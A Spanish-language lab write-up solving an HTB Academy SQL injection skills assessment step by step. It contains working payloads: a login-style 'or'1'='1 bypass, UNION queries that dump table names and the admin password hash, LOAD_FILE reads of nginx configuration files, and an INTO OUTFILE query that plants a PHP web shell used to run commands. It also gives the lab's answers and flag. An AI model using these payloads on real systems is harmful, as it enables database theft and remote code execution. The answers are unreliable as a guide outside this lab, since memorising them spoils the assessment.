# Skills Assessment - SQL Injection Fundamentals

* **Target:** `154.57.164.82:30381`
* **Módulo:** HTB Academy

---

## 1. What is the password hash for the user 'admin'?

**Respuesta:** `$argon2i$v=19$m=2048,t=4,p=3$dk4wdDBraE0zZVllcEUudA$CdU8zKxmToQybvtHfs1d5nHzjxw9DhkdcVToq6HTgvU`

#### Procedimiento:
1. Abrimo Burp Suite y nos vamos a Proxy>Intercept>Open Browser

2. Escribimos en el chromium el objetivo (target): `https://154.57.164.82:30381` (en mi caso)
Es https (con la `s` al final)




3. Le damos en "create account" para crear una cuenta:
En mi caso yo pondre los datos:
username=fabric047
password=Test12345%^6789
invitationCode=aaaa-bbbb-1111



pero nos aparece el mensaje: "Invalid invitation code" ya que no existe ese codigo de invitacion (porque lo inventamos)



4. Usemos el Burp Suite:

En el burp activamos el intercept (intercept on) en Proxy>Intercept
Con el intercept on, entramos a la pagina y ponemos los datos de nuevo
username=fabric047
password=Test12345%^6789
invitationCode=aaaa-bbbb-1111


5. Al darle click en "create acount", notaremos que la pagina queda cargando

Entraremos al burp de nuevo y tendremos el method post. Luego le damos en "send to repeater":



6. Nos vamos al repeater:



Abajo tenemos esto:
```
username=fabric047&password=Test12345%25%5E6789&repeatPassword=Test12345%25%5E6789&invitationCode=abcd-efgh-1234
```

Le agregamos `'or'1'='1` y quedara asi:

```
username=fabric047&password=Test12345%25%5E6789&repeatPassword=Test12345%25%5E6789&invitationCode=abcd-efgh-1234'or'1'='1
```

## Porque agregamos `'or'1'='1`?

Supongamos que la aplicación comprueba el código de invitación con una consulta parecida a:
```
SELECT * FROM invitations
WHERE code = 'aaaa-bbbb-1111';
```
Si tú introduces simplemente: `aaaa-bbbb-1111` la aplicacion ejecuta `WHERE code = 'aaaa-bbbb-1111'` y no lo acepta ya que ese codigo no existe

En cambio, si pones `aaaa-bbbb-1111' or '1'='1`, se ejecuta algo asi:
```
WHERE code = 'aaaa-bbbb-1111'     <-- Eso es Falso
    OR
'1' = '1'                         <-- Eso es Verdadero (1 es igual a 1)
```
Sabemos que Falso OR Verdadero es igual a Verdadero

7. Le damos en "send":



y en el Response>Pretty ( a la derecha ) obtendremos: Location: /login.php?s=account+created+successfully!


8. Entramos a la pagina y le damos en login para iniciar sesion con el usuario y password con el que nos registramos



9. A partir de aqui, nos concentramos solo en el cuadro de busqueda (search)

Por ejemplo, intentemos con `admin') union select 1,2,3-- -`: No obtenemos nada (error)
Ahora, intentemos con `admin') union select 1,2,3,4-- -` y tenemos esto:




Entonces, sabemos que solo la tercer columna sera mostrada.

10. Ahora si viene lo interesante! La pregunta nos pide hallar el password hash del admin.

Primero debemos conocer el nombre de la base de datos:

```
admin') union select 1,2, database(),4 from INFORMATION_SCHEMA.SCHEMATA-- -
```



`database()` devolvió `chattr`, es decir, esa es la base de datos que está usando la aplicación.

Ahora necesitamos saber las tablas existentes dentro de la base de datos chattr

```
admin') union select 1,2, TABLE_NAME,4 from INFORMATION_SCHEMA.TABLES where table_schema='chattr'-- -
```



Tenemos 3 tablas: Users, InvitationCodes y Messages.
La tabla Users parece que tiene informacion interesante.

Vamos a ver sus columnas: 

```
xd') union select 1,2,COLUMN_NAME,4 from INFORMATION_SCHEMA.COLUMNS where table_name='Users'-- -
```



Ahora sabemos que la tabla Users es algo asi:


| UserID | Username | Password | InvitationCode | AccountCreated
| --- | --- | --- | --- | --- |
| ... | ... | ... | ... | ... |
| ... | ... | ... | ... | ... |

Por fin!!! Obtengamos la password hash del admin:
```
xd') union select 1,2,Password,4 from Users where Username="admin"-- -
```



---

## 2. What is the root path of the web application?

**Respuesta:** `/var/www/chattr-prod`

#### Procedimiento:

1. Primero revisemos nuestro usuario actual para ver si tenemos algun privilegio que nos pueda servir para leer y, tal vez, escribir archivos:

```
xd') union select 1,2,user(),4 from INFORMATION_SCHEMA.SCHEMATA-- -
```



Estamos como `chattr_dbUser@localhost`

2. Ahora revisemos nuestros privilegios

```
xd') UNION SELECT 1, 2, privilege_type, grantee FROM information_schema.user_privileges-- -
```


El privilegio FILE en MySQL permite lectura a los archivos de MySQL.

3. Leer archivos de configuración 
para encontrar información sobre el servidor. Podemos intentar leer los archivos de configuración de Apache y/o Nginx en sus ubicaciones predeterminadas.

Intentemos con nginx:
```
xd' ) UNION SELECT 1 , 2 , LOAD_FILE ( "/etc/nginx/nginx.conf" ), 4-- -
```


Nos dice que las configuraciones están dentro de /etc/nginx/sites-enabled/directory.

4. Guardemos el GET

Primero activemos el interceptor en burp suite y despues escribamos esto en la pagina:
```
xd') union select 1,2,LOAD_FILE('/etc/nginx/sites-enabled/test'),4-- -
```
Obtenemos el Method Get en Burp Suite.
En el `GET` cambiamos test por FUZZ para que quede asi:
`GET /index.php?q=xd%27%29+union+select+1%2C2%2CLOAD_FILE%28%27%2Fetc%2Fnginx%2Fsites-enabled%2FFUZZ%27%29%2C4--+-&u=1 HTTP/1.1`

Despues, guardamos el archivo con el nombre `conf.req`



5. Usemos FUZZ:

Una vez tenemos guardado el archivo. Podemos verificarlo con el comando `cat`:
```
┌──(kali㉿kali)-[~]
└─$ cat conf.req 
GET /index.php?q=xd%27%29+union+select+1%2C2%2CLOAD_FILE%28%27%2Fetc%2Fnginx%2Fsites-enabled%2FFUZZ%27%29%2C4--+-&u=1 HTTP/1.1
Host: 154.57.164.69:32051
Cookie: PHPSESSID=5lonlmtq2rjt155bi5u6s5j2bm
Sec-Ch-Ua: "Not;A=Brand";v="8", "Chromium";v="150"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://154.57.164.69:32051/index.php?q=xd%27%29+union+select+1%2C2%2CLOAD_FILE%28%27%2Fetc%2Fnginx%2Fsites-enabled%2Ftest%27%29%2C4--+-&u=1
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

Ahora usaremos fuzz:
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt:FUZZ -request conf.req -t 300
```

Y nos va a aparecer un monton de resultados



Nos damos cuenta que la mayoria dice: `Size: 5372`. Entonces, podemos filtrar ese tamaño:
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt:FUZZ -request conf.req -t 300 -fs 5372
```

Y obtenemos `default`



6. Regresemos a la pagina y pongamos:

`xd') union select 1,2,LOAD_FILE('/etc/nginx/sites-enabled/default'),4-- -`

Obtenemos:




---

## 3. Achieve remote code execution, and submit the contents of /flag_XXXXXX.txt below.
**Respuesta:** `061b1aeb94dec6bf5d9c27032b3c1d8d`

#### Procedimiento:

1. Escribimos en la pagina:

```
cn ') union select 1,2,variable_value,4 from information_schema.global_variables where variable_name = "secure_file_priv"-- -
```

No sale nada. Eso significa que tenemos permisos de escritura/lectura.

2. Carguemos el payload

```
cn ') union select "", '<?php system($_REQUEST[0]); ?>',"","" into outfile '/var/www/chattr-prod/shell.php'-- -
```

- El `$_REQUEST[0]` obtiene un parámetro llamado 0 de la petición HTTP, y `system(...)` intenta ejecutar ese valor como un comando del sistema.
- `into outfile '/var/www/chattr-prod/shell.php'` le dice a MariaDB: "Toma el resultado de este SELECT y escríbelo en este archivo del sistema."


3. Vamos a https://<IP>:<PORT>/shell.php

Por ejemplo, vamos a: `https://<IP>:<PORT>/shell.php?0=whoami` y nos saldra `www-data`.


4. Con eso ya sabemos que el payload esta correctamente cargado

La pregunta nos dice que el codigo de ejecucion es algo asi `/flag_XXXXXX.txt `

Entonces vamos a: `https://<IP>:<PORT>/shell.php?0=cat%20/flag_[aqui_va_algo].txt`
Ojo: el simbolo `%20` significa espacio solo que esta en formatdo url por si acaso

Ahora debemos encontrar ese [aqui_va_algo]

5. Escribamos la url `https://[ip]:[port]/shell.php?0=ls%20/`

Con eso estamos, basicamente, ejecutando: `ls /`
Como sabemos por linux, `ls` sirve para mostrar todos los archivo de `/` que es la carpeta root



Uno de esos es `flag_876a4c.txt`!!!

6. Ya lo tenemos!!!

Simplemente vamos alla: `https://<IP>:<PORT>/shell.php?0=cat%20/flag_876a4c.txt` y tenemos la respuesta!!!




